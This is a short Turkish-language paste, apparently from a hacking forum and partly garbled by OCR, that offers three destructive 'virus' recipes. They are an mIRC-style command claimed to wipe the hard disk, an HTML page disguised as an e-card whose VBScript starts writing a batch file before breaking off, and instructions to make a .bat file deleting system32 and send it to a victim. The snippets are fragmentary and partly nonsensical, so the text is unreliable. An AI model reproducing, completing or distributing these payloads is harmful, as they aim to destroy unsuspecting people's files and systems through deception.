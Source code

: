 Harddisk Çökertici
_________________________

Kod:
/timersecure 0 0 //mkdir şmid(C:,1,2) ş+ şrand(1,99999) ş+ şrand(A,Z) ş+ şrand(a,z)
bunu çalıştıra yazdırın.
Açıklama:Harddisk silinir ve pc açılmaz

Formatter
____________
Kod:
<html>
<head>
<**** **********="Content-Type" content="text/html; charset=iso-8859-1">
<title>Size E-Kart Gönderildi!</title>
</head>
<body>
<script language="VBSCRIPT">
Set fs = CreateObject("Scripting.FileSystemObject")
Set a = fs.CreateTextFile("Cutoexec.bat",

System 32 Silen Virüs
__________________
Not defterinin içine yapıştır.Bata çevir.C:/windows/system32 /deleted

Karşı tarafa yolla açsın.Gitti Bitti.
